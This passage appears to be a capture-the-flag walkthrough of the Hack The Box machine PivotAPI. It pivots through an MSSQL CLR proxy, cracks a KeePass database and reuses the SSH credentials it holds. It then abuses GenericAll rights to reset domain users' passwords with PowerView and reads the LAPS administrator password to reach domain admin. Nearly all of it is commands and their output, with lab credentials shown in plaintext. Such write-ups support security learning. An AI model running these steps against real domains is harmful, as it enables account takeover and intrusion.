Impacket v0.11.0 - Copyright 2023 Fortra

mssqlproxy - Copyright 2020 BlackArrow
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: Español
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(PIVOTAPI\SQLEXPRESS): Line 1: Se cambió el contexto de la base de datos a 'master'.
[*] INFO(PIVOTAPI\SQLEXPRESS): Line 1: Se cambió la configuración de idioma a Español.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL> enable_ole
SQL> upload reciclador.dll C:\windows\temp\reciclador.dll
[+] Uploading 'reciclador.dll' to 'C:\windows\temp\reciclador.dll'...
[+] Size is 111616 bytes
[+] Upload completed
SQL> 
```
```
└─$ python3 mssqlclient.py 'LicorDeBellota.htb/sa:#mssql_s3rV1c3!2020@10.10.10.240' -install -clr Microsoft.SqlServer.Proxy.dll
Impacket v0.11.0 - Copyright 2023 Fortra

mssqlproxy - Copyright 2020 BlackArrow
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: Español
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(PIVOTAPI\SQLEXPRESS): Line 1: Se cambió el contexto de la base de datos a 'master'.
[*] INFO(PIVOTAPI\SQLEXPRESS): Line 1: Se cambió la configuración de idioma a Español.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[*] Proxy mode: install
[*] CLR enabled
[*] Assembly successfully installed
[*] Procedure successfully installed
```
```
└─$ python3 mssqlclient.py 'LicorDeBellota.htb/sa:#mssql_s3rV1c3!2020@10.10.10.240' -check -reciclador 'C:\windows\temp\reciclador.dll'
Impacket v0.11.0 - Copyright 2023 Fortra

mssqlproxy - Copyright 2020 BlackArrow
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: Español
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(PIVOTAPI\SQLEXPRESS): Line 1: Se cambió el contexto de la base de datos a 'master'.
[*] INFO(PIVOTAPI\SQLEXPRESS): Line 1: Se cambió la configuración de idioma a Español.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[*] Proxy mode: check
[*] Assembly is installed
[*] Procedure is installed
[*] reciclador is installed
[*] clr enabled
```
```
└─$ python3 mssqlclient.py 'LicorDeBellota.htb/sa:#mssql_s3rV1c3!2020@10.10.10.240' -start -reciclador 'C:\windows\temp\reciclador.dll'
Impacket v0.11.0 - Copyright 2023 Fortra

mssqlproxy - Copyright 2020 BlackArrow
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: Español
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(PIVOTAPI\SQLEXPRESS): Line 1: Se cambió el contexto de la base de datos a 'master'.
[*] INFO(PIVOTAPI\SQLEXPRESS): Line 1: Se cambió la configuración de idioma a Español.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[*] Proxy mode: check
[*] Assembly is installed
[*] Procedure is installed
[*] reciclador is installed
[*] clr enabled
[*] Proxy mode: start
[*] Triggering Proxy Via MSSQL, waiting for ACK
[*] ACK from server!
[*] Listening on port 1337...
```
- Now if we check `netstat`, we have `1137` port listening
```
└─$ sudo netstat -tulpn | grep 1337
[sudo] password for kali: 
tcp        0      0 0.0.0.0:1337            0.0.0.0:*               LISTEN      245854/python3 
```

- Add entry `socks5  127.0.0.1 1337` to `/etc/proxychains.conf`
- Since we saw that `svc_mssql` is has `winrm` rights, if we check `winrm` port it's open
```
└─$ proxychains nmap -Pn -p 5985 127.0.0.1
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-12 13:45 BST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.35s latency).

PORT     STATE SERVICE
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 0.37 seconds
```

- Now we can `evil-winrm`
```
└─$  proxychains evil-winrm -i 127.0.0.1 -u svc_mssql -p '#mssql_s3rV1c3!2020'
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_mssql\Documents> 
```
## User #1
- If we check `svc_mssql`'s desktop, we have creds
```
*Evil-WinRM* PS C:\Users\svc_mssql> ls desktop


    Directorio: C:\Users\svc_mssql\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         8/8/2020  10:12 PM           2286 credentials.kdbx
-a----        4/30/2021  10:39 AM             93 note.txt
```
- Download `kdbx` 
```
*Evil-WinRM* PS C:\Users\svc_mssql\desktop> type note.txt
Long running MSSQL Proxies can cause issues.  Please switch to SSH after getting credentials.
*Evil-WinRM* PS C:\Users\svc_mssql\desktop> download credentials.kdbx
                                        
Info: Downloading C:\Users\svc_mssql\desktop\credentials.kdbx to credentials.kdbx
                                        
Info: Download successful!
```

- Let's crack it
```
└─$ keepass2john credentials.kdbx > credentials.hash
```
```
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt credentials.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mahalkita        (credentials)     
1g 0:00:00:01 DONE (2023-10-12 13:50) 0.7246g/s 144.9p/s 144.9c/s 144.9C/s alyssa..september
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

- Let's find a password
```
└─$ echo "mahalkita" | kpcli -kdb credentials.kdbx
Provide the master password: *************************

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> ls
=== Groups ===
Database/
kpcli:/> cd Database/
kpcli:/Database> ls
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Recycle Bin/
Windows/
kpcli:/Database>
```

- I found creds in `Windows` folder
```
kpcli:/Database> cd Windows/
kpcli:/Database/Windows> ls
=== Entries ===
0. SSH                                                                    
kpcli:/Database/Windows> show -f SSH 

 Path: /Database/Windows/
Title: SSH
Uname: 3v4Si0N
 Pass: Gu4nCh3C4NaRi0N!23
  URL: 
Notes: 

```

- And they work for `ssh`
```
└─$ sshpass -p 'Gu4nCh3C4NaRi0N!23' ssh 3v4Si0N@10.10.10.240
Microsoft Windows [Versión 10.0.17763.1879]
(c) 2018 Microsoft Corporation. Todos los derechos reservados.

licordebellota\3v4si0n@PIVOTAPI C:\Users\3v4Si0N>
```


## User #2
- There is a `Developers` folder, but we don't have access to it
```
licordebellota\3v4si0n@PIVOTAPI C:\>dir 
 El volumen de la unidad C no tiene etiqueta. 
 El número de serie del volumen es: 94DB-AFCA

 Directorio de C:\

08/08/2020  19:23    <DIR>          Developers
08/08/2020  12:53    <DIR>          inetpub
08/08/2020  22:48    <DIR>          PerfLogs
19/02/2021  14:42    <DIR>          Program Files
09/08/2020  17:06    <DIR>          Program Files (x86)
08/08/2020  19:46    <DIR>          Users
29/04/2021  17:31    <DIR>          Windows
               0 archivos              0 bytes
               7 dirs   4.425.191.424 bytes libres

licordebellota\3v4si0n@PIVOTAPI C:\>dir Developers 
 El volumen de la unidad C no tiene etiqueta. 
 El número de serie del volumen es: 94DB-AFCA

 Directorio de C:\Developers

No se encuentra el archivo
```

- The `bloodhound` shows `GenericAll` rights over few users



- We know there is a `developers` group in the domain
  - We could assume they have access to that folder
```
licordebellota\3v4si0n@PIVOTAPI C:\>net group /domain

Cuentas de grupo de \\PIVOTAPI

-------------------------------------------------------------------------------
*Administradores clave
*Administradores clave de la organización
*Administradores de empresas
*Administradores de esquema
*Admins. del dominio
*Controladores de dominio
*Controladores de dominio clonables
*Controladores de dominio de sólo lectura
*Developers
*DnsUpdateProxy
*Enterprise Domain Controllers de sólo lectura
*Equipos del dominio
*Invitados del dominio
*LAPS ADM
*LAPS READ
*Propietarios del creador de directivas de grupo
*Protected Users
*Usuarios del dominio
*WinRM
Se ha completado el comando correctamente.

```

- If we specify the target as `Developers` in `bloodhound`, we see  the path



- Let's download `Powerview` and change `Dr.Zaiuss`'s password
```
└─$ sshpass -p 'Gu4nCh3C4NaRi0N!23' scp powerview.ps1 3v4Si0N@10.10.10.240:'C:\programdata\powerview.ps1'
```

- Change the password
```
PS C:\Programdata> import-module .\powerview.ps1 
PS C:\Programdata> $pass = ConvertTo-SecureString 'P@ssw0rd123' -AsPlainText -Force 
PS C:\Programdata> Set-DomainUserPassword -Identity dr.zaiuss -AccountPassword $pass 
PS C:\Programdata>  
```

- `dr.zaiuss` is not `ssh` user, but has rights to `winrm`
  - We can configure port forwarding via `ssh`
  - And connect as `dr.zaiuss`
```
└─$ sshpass -p 'Gu4nCh3C4NaRi0N!23' ssh 3v4Si0N@10.10.10.240 -L 5985:127.0.0.1:5985
Microsoft Windows [Versión 10.0.17763.1879]
(c) 2018 Microsoft Corporation. Todos los derechos reservados.

licordebellota\3v4si0n@PIVOTAPI C:\Users\3v4Si0N>
```

- And now connect as `dr.zaiuss`
```
└─$ evil-winrm -i 127.0.0.1 -u dr.zaiuss -p 'P@ssw0rd123' 
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Dr.Zaiuss\Documents> 
```
## User #3
- Now we change `superfume`'s password
```
*Evil-WinRM* PS C:\programdata> import-module .\powerview.ps1
*Evil-WinRM* PS C:\programdata> $pass = ConvertTo-SecureString 'P@ssw0rd123' -AsPlainText -Force 
*Evil-WinRM* PS C:\programdata> Set-DomainUserPassword -Identity superfume -AccountPassword $pass
*Evil-WinRM* PS C:\programdata>
```

- Now connect to `winrm`
```
└─$ evil-winrm -i 127.0.0.1 -u superfume -p 'P@ssw0rd123' 
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\superfume\Documents> 
```

## User #4
- Now we can access `Developers` folder

```
*Evil-WinRM* PS C:\Developers> dir


    Directorio: C:\Developers


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         8/8/2020   7:26 PM                Jari
d-----         8/8/2020   7:23 PM                Superfume

```

- We have 2 files inside `Jari`'s folder
```
*Evil-WinRM* PS C:\Developers>ls jari


    Directorio: C:\Developers\jari


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         8/8/2020   7:26 PM           3676 program.cs
-a----         8/8/2020   7:18 PM           7168 restart-mssql.exe
```

- Download them
```

```

- `program.cs` indicates that it uses `Jari`'s creds, but it's incomplete
  - The password is decrypted using `RC4` before restarting the service
  - But it's empty


- Let's reverse engineer the binary



- We can set a breakpoint and start it
  - We see an `array`
  - Right-click and `Show in Memory Window`
  - We see our password





- And we can `winrm`
```
└─$ evil-winrm -i 127.0.0.1 -u jari -p 'Cos@Chung@!RPG'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jari\Documents> 

```
## Root
- We have a path to `Laps Adm` and `Laps Read` groups
  - [LAPS](https://www.microsoft.com/en-us/download/details.aspx?id=46899)


- We have to change `gibdeon`'s password, who's a member of [Account Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-accountoperators)
  - `Members of the Account Operators group cannot manage the Administrator user account, the user accounts of administrators, or the Administrators, Server Operators, Account Operators, Backup Operators, or Print Operators groups. Members of this group cannot modify user rights.`
```
*Evil-WinRM* PS C:\programdata> import-module .\poweview.ps1
*Evil-WinRM* PS C:\programdata> $pass = ConvertTo-SecureString 'P@ssw0rd123' -AsPlainText -Force
*Evil-WinRM* PS C:\programdata> Set-DomainUserPassword -Identity gibdeon -AccountPassword $pass
*Evil-WinRM* PS C:\programdata> $cred = New-Object System.Management.Automation.PSCredential('gibdeon', $pass)
```

- Now we can execute commands a `gibdeon`
  - I'll add `jari` to `LAPS Read` group
```
*Evil-WinRM* PS C:\programdata> Add-DomainGroupMember -Identity 'LAPS READ' -Credential $cred -Members 'jari'
*Evil-WinRM* PS C:\programdata> whoami /groups

INFORMACIàN DE GRUPO
--------------------

Nombre de grupo                                                    Tipo           SID                                           Atributos
================================================================== ============== ============================================= ========================================================================
Todos                                                              Grupo conocido S-1-1-0                                       Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
BUILTIN\Usuarios de administraci¢n remota                          Alias          S-1-5-32-580                                  Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
BUILTIN\Usuarios                                                   Alias          S-1-5-32-545                                  Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
BUILTIN\Acceso compatible con versiones anteriores de Windows 2000 Alias          S-1-5-32-554                                  Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\NETWORK                                               Grupo conocido S-1-5-2                                       Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\Usuarios autentificados                               Grupo conocido S-1-5-11                                      Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\Esta compa¤¡a                                         Grupo conocido S-1-5-15                                      Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
LICORDEBELLOTA\Developers                                          Grupo          S-1-5-21-842165252-2479896602-2762773115-1126 Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
LICORDEBELLOTA\WinRM                                               Grupo          S-1-5-21-842165252-2479896602-2762773115-1125 Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\Autenticaci¢n NTLM                                    Grupo conocido S-1-5-64-10                                   Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
Etiqueta obligatoria\Nivel obligatorio medio alto                  Etiqueta       S-1-16-8448
*Evil-WinRM* PS C:\programdata> exit
                                        
Info: Exiting with code 0                                      
```

- Relogin for the changes to take effect
```
└─$ evil-winrm -i 127.0.0.1 -u jari -p 'Cos@Chung@!RPG'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jari\Documents> whoami /groups

INFORMACIàN DE GRUPO
--------------------

Nombre de grupo                                                    Tipo           SID                                           Atributos
================================================================== ============== ============================================= ========================================================================
Todos                                                              Grupo conocido S-1-1-0                                       Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
BUILTIN\Usuarios de administraci¢n remota                          Alias          S-1-5-32-580                                  Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
BUILTIN\Usuarios                                                   Alias          S-1-5-32-545                                  Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
BUILTIN\Acceso compatible con versiones anteriores de Windows 2000 Alias          S-1-5-32-554                                  Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\NETWORK                                               Grupo conocido S-1-5-2                                       Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\Usuarios autentificados                               Grupo conocido S-1-5-11                                      Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\Esta compa¤¡a                                         Grupo conocido S-1-5-15                                      Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
LICORDEBELLOTA\Developers                                          Grupo          S-1-5-21-842165252-2479896602-2762773115-1126 Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
LICORDEBELLOTA\LAPS READ                                           Grupo          S-1-5-21-842165252-2479896602-2762773115-1114 Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
LICORDEBELLOTA\WinRM                                               Grupo          S-1-5-21-842165252-2479896602-2762773115-1125 Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\Autenticaci¢n NTLM                                    Grupo conocido S-1-5-64-10                                   Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
Etiqueta obligatoria\Nivel obligatorio medio alto                  Etiqueta       S-1-16-8448
```

- Retrieve password
```
*Evil-WinRM* PS C:\Users\jari\Documents> Get-ADComputer PivotAPI -property 'ms-mcs-admpwd'


DistinguishedName : CN=PIVOTAPI,OU=Domain Controllers,DC=LicorDeBellota,DC=htb
DNSHostName       : PivotAPI.LicorDeBellota.htb
Enabled           : True
ms-mcs-admpwd     : hrn38Rhix9Tdx7XR2XG4
Name              : PIVOTAPI
ObjectClass       : computer
ObjectGUID        : 98783674-e6a3-4d9e-87e3-efe5f31fabbf
SamAccountName    : PIVOTAPI$
SID               : S-1-5-21-842165252-2479896602-2762773115-1004
UserPrincipalName :
```

- Now we can `winrm` as `Administrador`
```
└─$ evil-winrm -i 127.0.0.1 -u administrador -p 'hrn38Rhix9Tdx7XR2XG4'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\administrador\Documents> 
```